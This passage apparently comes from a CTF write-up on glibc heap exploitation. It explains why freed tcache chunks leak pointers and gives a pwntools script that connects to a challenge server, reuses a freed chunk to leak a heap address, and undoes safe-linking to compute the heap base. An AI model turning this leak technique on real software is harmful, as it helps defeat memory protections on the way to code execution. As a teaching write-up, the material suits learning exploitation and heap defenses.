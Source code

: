 Why does this happen? Because `malloc` is lazy — it doesn't bother clearing out the contents of the chunk before handing it back to you. Combine this with how **tcache bins** work (specifically, storing forward pointers inside freed chunks). 

</aside>

*(We need to Deobfuscate the heap leak because of the [safe linking](https://ir0nstone.gitbook.io/notes/binexp/heap/safe-linking) implementation in tcache)*

```python
from pwn import *

elf = ELF("./limit_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = elf
global r
# r = process()
r = remote('smiley.cat', '39321')
def defuscate(x,l=64):
    p = 0
    for i in range(l*4,0,-4): # 16 nibble
        v1 = (x & (0xf << i )) >> i
        v2 = (p & (0xf << i+12 )) >> i+12
        p |= (v1 ^ v2) << i
    return p

def obfuscate(p, adr):
    return p^(adr>>12)

def create(index,size):
    r.sendlineafter(b'> ',b'1')
    r.sendlineafter(b'Index:',str(index).encode())
    r.sendlineafter(b'Size:',str(size).encode())

def free(index):
    r.sendlineafter(b'> ',b'2')   
    r.sendlineafter(b'Index:',str(index).encode())

def view(index):
    r.sendlineafter(b'> ',b'3')   
    r.sendlineafter(b'Index:',str(index).encode())

def write_into(index,content):
    r.sendlineafter(b'> ',b'4')   
    r.sendlineafter(b'Index:',str(index).encode())
    r.sendafter(b'Data: ',content)

# gdb.attach(r,gdbscript='b *main+1273')
create(0,24)
create(1,24)
free(0)
free(1)
create(0,24)
view(0)
r.recvuntil(b'Data: ')
heap_base = defuscate(unpack(r.recv(6),'all')) + 0x562c4dace000 -0x562c4dace2a0
log.critical(f'heap_base = {hex(heap_base)}')
```
